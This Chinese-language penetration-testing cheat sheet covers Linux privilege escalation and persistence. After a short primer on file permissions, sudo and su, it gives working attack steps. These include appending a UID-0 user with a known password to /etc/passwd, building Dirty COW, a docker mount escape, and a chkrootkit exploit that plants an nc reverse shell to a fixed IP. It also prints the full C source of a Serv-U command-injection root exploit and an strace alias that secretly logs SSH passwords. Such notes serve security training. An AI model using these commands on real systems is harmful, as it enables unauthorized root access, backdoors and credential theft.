



持久化 - Linux
========================================

什么是权限
----------------------------------------
在Linux 系统中， ``ls -al`` 即可查看列出文件所属的权限。这里我用kali系统来演示。

::

	……
	drwxr-xr-x  2 kali kali    4096 Jan 27 12:52 Downloads
	-rw-r--r--  1 root root     903 Jun 14 11:33 exp.html
	-rw-r--r--  1 root root  153600 May  5 09:42 flag
	lrwxrwxrwx  1 kali kali      28 May 14 08:28 flagg -> /proc/self/cwd/flag/flag.jpg
	-rw-r--r--  1 kali kali     188 May 14 08:29 flagg.zip
	-rw-r--r--  1 root root 1807342 Apr 20 06:52 get-pip.py
	drwx------  3 kali kali    4096 Jun 18 21:35 .gnupg
	-rw-r--r--  1 root root      56 Jun 16 23:29 hash.txt
	-rw-r--r--  1 root root   12396 Jun 11 00:13 hydra.restore
	-rw-------  1 kali kali    5202 Jun 18 21:35 .ICEauthority
	-rw-r--r--  1 root root    2046 Jun 10 22:58 jim_pass.txt
	-rwsr-xr-x  1 root root      63736 Jul 27  2018  passwd
	……

::

	例如：
	-rw-r--r--  1 root root      56 Jun 16 23:29 hash.txt

- 第一位
	| ``-`` :代表普通文件
	| ``d`` :代表目录
	| ``l`` :代表软链接
	| ``b`` :代表块文件
	| ``c`` :代表字符设备
- 第二及后面几位,分别三个为一组
	| ``rw-r--r--`` 代表文件所属的权限,r:文件可读。w:文件可修改。-:表示暂时没有其他权限。x:表示可执行
	| ``rw-`` 表示文件所拥有者的权限
	| ``r--`` 表示文件所在组的用户的权限
	| ``r--`` 表示其他组的用户的权限。
	| ``s`` s代表着二进制文件具有SUID权限(假如属主没有执行权限，那么显示的是大S)
- 第二组数据 ``1`` 
	| 如果文件类型为目录，表示目录下的字目录个数
	| 如果文件类型是普通文件，这个数据就表示这个文件的硬链接个数
- 第三组数据 ``root`` ,表示该文件所有者为root用户
- 第四组数据 ``root`` ,表示该文件所在组为root组
- 第五组数据 ``56`` ,表示文件的大小为多少字节。如果为一个目录，则为 ``4096`` 。
- 第六组数据表示最后一次修改时间
- 第七组数据表示文件名称

相关指令
----------------------------------------
- sudo
    - -V 显示版本编号
    - -h 会显示版本编号及指令的使用方式说明
    - -l 显示出自己（执行 sudo 的使用者）的权限
    - -v 因为 sudo 在第一次执行时或是在 N 分钟内没有执行（N 预设为五）会问密码，这个参数是重新做一次确认，如果超过 N 分钟，也会问密码
    - -k 将会强迫使用者在下一次执行 sudo 时问密码（不论有没有超过 N 分钟）
    - -b 将要执行的指令放在背景执行
    - -p prompt 可以更改问密码的提示语，其中 %u 会代换为使用者的帐号名称， %h 会显示主机名称
    - -u username/#uid 不加此参数，代表要以 root 的身份执行指令，而加了此参数，可以以 username 的身份执行指令（#uid 为该 username 的使用者号码）
    - -s 执行环境变数中的 SHELL 所指定的 shell ，或是 /etc/passwd 里所指定的 shell
    - -H 将环境变数中的 HOME （家目录）指定为要变更身份的使用者家目录（如不加 -u 参数就是系统管理者 root ）
    - command 要以系统管理者身份（或以 -u 更改为其他人）执行的指令
	
	::
	
		# sudo -u userb ls -l
		$ sudo -u uggc vi ~www/index.html
		
- su
	- 语法：su [-fmp] [-c command] [-s shell] [--help] [--version] [-] [USER [ARG]] 
	- -f 或--fast不必读启动档（如 csh.cshrc 等），仅用于 csh 或 tcsh
	- -m -p 或 --preserve-environment 执行 su 时不改变环境变数
	- -c command 或 --command=command 变更为帐号为 USER 的使用者并执行指令（command）后再变回原来使用者
	- -s shell 或 --shell=shell 指定要执行的 shell （bash csh tcsh 等），预设值为 /etc/passwd 内的该使用者（USER） shell
	- --help 显示说明文件
	- --version 显示版本资讯
	- --l或--login 这个参数加了之后，就好像是重新 login 为该使用者一样，大部份环境变数（HOME SHELL USER等等）都是以该使用者（USER）为主，并且工作目录也会改变，如果没有指定 USER ，内定是 root
	- USER欲变更的使用者帐号
	- ARG传入新的shell参数
	
	::
	
		su -c ls root

权限提升
----------------------------------------
- linux exploit suggester（kernel<3.4.4）
	+ ``https://github.com/mzet-/linux-exploit-suggester``
	+ ``https://github.com/InteliSecureLabs/Linux_Exploit_Suggester``
- 明文root密码/密码复用
- sudo提权
	::
	
		普通用户一般是无法运行root所有者的命令的，运用sudo可以使普通用户使用root用户的命令。
		但是在一些场景下，管理员为了平常运营方便给sudoer文件配置不当，从而导致权限提升的问题产生。 
		vim /etc/sudoers
		添加：test ALL=(ALL:ALL) NOPASSWD:ALL #test为我们的用户 
		
- 可写入的/etc/passwd文件提权
	- 查询写入权限：ls -al /etc/passwd
	- 写入：echo 'Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash' >> /etc/passwd
	- 密码为：Password@973
	- su Tom
	- mkpasswd -m des生成用户密码。
- 脏牛漏洞本地提权
	- 内核版本低于列表里的版本(>=2.6.22)
		::
		
			Centos7 /RHEL7    3.10.0-327.36.3.el7
			Cetnos6/RHEL6     2.6.32-642.6.2.el6
			Ubuntu 16.10         4.8.0-26.28
			Ubuntu 16.04         4.4.0-45.66
			Ubuntu 14.04         3.13.0-100.147
			Debian 8                3.16.36-1+deb8u2
			Debian 7                3.2.82-1
		
	- 编译
		::
		
			git clone https://github.com/gbonacini/CVE-2016-5195.git
			sudo apt-get install g++
			make
		
- 内核漏洞利用
	- 搜索特定系统和内核版本利用漏洞
		- searchsploit linux kernel 3.2 
		- searchsploit centos 7 kernel 3.10
	- 搜索漏洞利用文件路径
		- searchsploit -p 37951.py
- 攻击有root权限的服务
- 通过有SUID属性的可执行文件
	::
	
	
		功用:用户运行某个程序时，如果该程序有SUID权限，那么程序运行为进程时，进程的属主不是发起者，而是程序文件所属的属主。
		作用：只作用于二进制文件中。
		1、只作用在二进制程序文件中（如作用在普通文件中没有任何意义）。
		2、在默认情况下，用户发起一个进程，该进程的属主是发起者，而并非是文件的属主，此时进程是以发起者的身份去运行。
		3、如果给二进制程序文件添加了SUID权限后，用户发起一个进程，该进程的属主为程序文件所属的属主，而并非是发起者。
	
	- ``find / -perm -4000 -ls``
	- ``find / -perm -u=s -type f 2>/dev/null``
	- ``find / -user root -perm -4000 -print 2>/dev/null``
	- ``find / -user root -perm -4000 -exec ls -ldb {} \;``
	- ``常用的提权文件：Nmap,Vim,find,Bash,More,Less,Nano,cp,netcat``
- 利用可用的root权限
    - ``sudo -l``
	::
	
	
		[root@localhost ~]# su - tom    ##切换用户
		[tom@localhost ~]$ sudo -l    ##查看此用户拥有的特殊权限
		We trust you have received the usual lecture from the local System
		Administrator. It usually boils down to these three things:
			#1) Respect the privacy of others.
			#2) Think before you type.
			#3) With great power comes great responsibility.
		[sudo] password for tom:     ##这里需要验证密码，以保证是用户本人执行操作
		Matching Defaults entries for tom on this host:
			requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE
			INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
			env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
			LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS
			_XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin
		User tom may run the following commands on this host:
			(root) /usr/sbin/useradd    ##可以以root身份，使用useradd命令
			
		[tom@localhost ~]$ sudo /usr/sbin/useradd test1    ##添加用户test1
		[tom@localhost ~]$ tail -1 /etc/passwd
		test1:x:501:501::/home/test1:/bin/bash        ##添加成功
- crontab计划任务
	- 查看计划任务
		::
		
			cat /etc/crontab
			SHELL=/bin/sh
			PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

			# Example of job definition:
			# .---------------- minute (0 - 59)
			# |  .------------- hour (0 - 23)
			# |  |  .---------- day of month (1 - 31)
			# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
			# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
			# |  |  |  |  |
			# *  *  *  *  * user-name command to be executed
			17 *  * * *     root    cd / && run-parts --report /etc/cron.hourly
			25 6  * * *     root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
			47 6  * * 7     root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
			52 6  1 * *     root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
			
			四种标识符含义：
			，	间隔多久
			-	连续多久
			/	每隔多久
			*	所有时间
			
			实例1：每月1、10、22日的4:45重启network服务
			45 4 1,10,22 * * /usr/bin/systemctl restart network
			实例2：每周六、周日的1:10重启network服务
			10 1 * * 6,7 /usr/bin/systemctl restart network
			实例3：每天18:00至23:00之间每隔30分钟重启network服务
			*/30 18-23 * * * /usr/bin/systemctl restart network
			实例4：每隔两天的上午8点到11点的第3和第15分钟执行一次重启
			3,15 8-11 */2 * * /usr/sbin/reboot
			实例5：每周日凌晨2点30分，运行cp命令对/etc/fstab文件进行备份，存储位置为/backup/fstab-YYYY-MM-DD-hh-mm-ss；
			30 2 * * 7 /usr/bin/cp /etc/fstab /tmp/fstab-`date “+\%F_\%T”`
			实例6：一月一号的4点重启smb
			0 4 1 1 * /usr/bin/systemctl restart smb   #4点钟只执行一次命令，正确答案;
			* 4 1 1 * /usr/bin/systemctl restart smb   #四点到五点执行了60次命令，错误答案：
			实例7：晚上11点到早上7点之间，每隔一小时重启smb
			0 23-0/1,1-7/1 * * * /usr/bin/systemctl restart smb
			0 23,0,1,2,3,4,5,6,7  * * * /usr/bin/systemctl restart smb
			实例8：每一小时重启smb
			0 * * * * /usr/bin/systemctl restart smb

- docker用户组提权
	::
	
		id
		uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
		#根据上面的id命令执行的结果，发现selena是docker组的，于是使用docker提权
		
    - docker images命令查看已经存在的镜像,没有的话就pull一个
		- docker pull alpine
    - 挂载宿主机目录到docker镜像内	 
	 ::
	 
		# docker run -v /:/mnt  -it alpine
		# docker run -v /etc/:/mnt -it alpinecd /mntcat shadow
		# docker run -it -v /宿主机目录:/容器目录 镜像名 /bin/bash
		-i: 以交互模式运行容器，通常与 -t 同时使用；
		-t: 为容器重新分配一个伪输入终端，通常与 -i 同时使用；
		
	- 也可以在宿主机/etc/passwd中添加特权用户
- 第三方组件提权
	- chkrootkit(<=0.49)
		- msf:unix/local/chkrootkit
		- 写入/tmp/update
		
		::
		
			用一个普通用户在/tmp文件夹下新建一个可执行文件update，然后运行带漏洞的chkrootkit，
			那么这个文件会被以root的身份执行。
			运行chkrootkit
			方法一：searchsploit -p 33899
			echo "/usr/bin/nc -e /bin/sh 192.168.43.154 4444" > /tmp/update
			chmod +777 /tmp/update
			方法二：echo 'echo "root:123456" | sudo chpasswd' > /tmp/update
			chmod 777 /tmp/update
			su - root
			
	- tmux
		+ 运行pspy64发现tmux以root权限运行
			|tmux2|
		+ tmux进程
			|tmux1|
		+ 提权
			::
			
				export TERM=xterm
				tmux -S /opt/.tmux-0/sockets/default attach
				
			|tmux3|	
		
- 其它
	- https://github.com/SecWiki/linux-kernel-exploits
	- Serv-U提权
		::
		
			Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (1)
			CVE编号为CVE-2019-12181
			
			#include <stdio.h>
			#include <unistd.h>
			#include <errno.h>

			int main()
			{       
				char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
				int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
				// if execv is successful, we won't reach here
				printf("ret val: %d errno: %d\n", ret_val, errno);
				return errno;
			}
			
持久化
----------------------------------------
- 反弹shell
- suid shell
- icmp后门
- sshd wrapper
- sshd软链接后门
- port knocking
- pam后门
- webshell
- rootkit
- strace 后门
    - ``alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'``
	

